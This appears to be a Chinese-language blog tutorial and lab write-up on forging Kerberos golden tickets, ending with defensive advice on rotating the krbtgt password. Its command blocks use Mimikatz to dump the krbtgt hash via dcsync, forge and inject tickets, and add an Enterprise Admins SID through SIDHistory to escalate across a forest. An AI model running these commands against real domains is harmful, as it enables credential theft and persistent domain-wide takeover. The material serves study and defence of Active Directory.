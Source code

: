 # Kerberos黄金票据及和SIDHistory

## 讲在前面：

此篇文章介绍了黄金票据的基础用法以及会介绍根林-多域环境下黄金票据利用SIDHistory进行权限提升的操作。当然这些内容都是笔者在国内外优秀研究员的文章基础上做的一次小总结，有不全之初请斧正。

参考文章：

[https://adsecurity.org/?p=1640](https://adsecurity.org/?p=1640)

[https://www.anquanke.com/post/id/172900?display=mobile&platform=iOS](https://www.anquanke.com/post/id/172900?display=mobile&platform=iOS)

## 黄金票据-Golden Tickets

在对于Kerberos协议的解释已经在之前的不同文章里做了简单介绍，笔者节约篇幅在这不做赘述。黄金票据利用的是Kerberos协议中第一二步骤，利用krbtgt用户的hash直接生成TGT票据，从而直接跳过了一二步直接进行第三步开始请求TGS。可以见下图：

标红的就是缺失的1，2步骤

> 1. AS-REP：客户端向KDC中心发起验证请求，请求内容内容为客户端Hash加密的时间戳等数据
> 2. AS-REQ：KDC响应请求，使用以存储的客户端Hash解密AS\_REP数据包，如果验证成功，那么就返回使用krbtgt加密的TGT票据，TGT内包含PAC，PAC包含客户端所在的组，sid等

![](https://img-blog.csdnimg.cn/20201006200604483.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

一个很有意思的事是黄金票据是一个在KDC看来合法的有效的票据，因为它是经过krbtgt账户加密/签名的。TGT仅用于向KDC证明自己已经被身份验证过了，但之后的PAC验证又是另外一回事了。

**生成黄金票据的要求：**

* 域名
* krbtgt的SID
* krbtgt账户的NTLM Hash
* 模拟用户名

## 获取必要信息

一旦攻击者具有了域管理员访问权限，就可以利用Minikatz提取krbtgt账户的密码hash,例如下面两个命令

```text
lsadump::dcsync /domain:pingpig.com /user:krbtgt
```

![](https://img-blog.csdnimg.cn/20201006201741852.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

```text
sekurlsa::krbtgt
```

![](https://img-blog.csdnimg.cn/20201006201950531.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

## 制作票据

注意：因为是在实验环境需要做如下两个操作保证实验性，实际渗透中请勿如此操作，本文仅作研究参考，不做为实际渗透所用。

* 清除内存票据：kerberos::purge
* 查看内存票据：kerberos::list

#### 直接注入：

```text
kerberos::golden /domain:pig.com /sid:S-1-5-21-3160116630-2225903390-3717321821-502 /aes256:39d82d8af9a1652267f2bf2b5c33cef819a9816b5e895e47014266f6d5405737 /user:piggg /ptt
```

#### 亦或者如下，注意去掉krbtgt的SID后面的RID

```text
kerberos::golden /admin:administrator /domain:test.org /sid:S-1-5-21-1205411304-435158765-2397915156 /krbtgt:1b88f3b0344d2d9c4aec012ade454776 /ptt
```

#### 生成票据文件，而后导入：

**生成文件：**

```text
kerberos::golden /domain:pig.com /sid:S-1-5-21-3160116630-2225903390-3717321821-502 /aes256:39d82d8af9a1652267f2bf2b5c33cef819a9816b5e895e47014266f6d5405737 /user:piggg /ticket:gold.kirbi
```

**导入票据：**

```text
kerberos::ptt c:\users\piggg\desktop\gold.kirbi /use
```

#### [在linux中使用](https://zhuanlan.zhihu.com/p/104464509)

## 遇到的问题

上一个实验实在单林单域环境下进行操作，Enterprise Admins组就在实验的域控中，但实际企业中可能会有多个林多个域环境，Enterprise Admins组只存在于根域的域控制器上。那么上面的生成的票据就只能被限制在所处域环境中，无法向上（父域）访问。**在一个多域AD森林中，如果创建的Golden Ticket的域不包含Enterprise Admins组，则Golden Ticket不会向林中的其他域提供管理权限。在单个域Active Directory林中，由于Enterprise Admins组驻留在此域中，这时创建Golden Ticket不存在局限性。**

除非在创建黄金票据的域包含Enterprise Admins组，否则黄金票据不能跨域信任使用，。一般的黄金票据权限范围仅限于其创建的子域

黄金票据+SIDHistory对此可以绕过

Mimikatz目前的版本已经支持可以直接这样利用

```text
kerberos::golden /admin:administrator /domain:new.test.org /sid:S-1-5-21-1205411304-435158765-2397915156 /sids:S-1-5-21-1205411304-435158765-2397915156-519 /krbtgt:1b88f3b0344d2d9c4aec012ade454776 /startoffset:0 /endin:600 /ptt
```

笔者在此处还未做实验：

![](https://img-blog.csdnimg.cn/2020100620381570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

## 防御：

1.限制域管理员登录到除域控制器和少数管理服务器以外的任何其他计算机（不要让其他管理员登录到这些服务器）将所有其他权限委派给自定义管理员组。

2. 禁用KRBTGT帐户，并保存当前的密码以及以前的密码

3.建议定期更改KRBTGT密码。更改一次，然后让AD备份，并在12到24小时后再次更改它。这个过程应该对系统环境没有影响。这个过程应该是确保KRBTGT密码每年至少更改一次的标准方法。

4.一旦发现攻击者获得了KRBTGT帐号密码哈希的访问权限，快速更改KRBTGT密码两次，

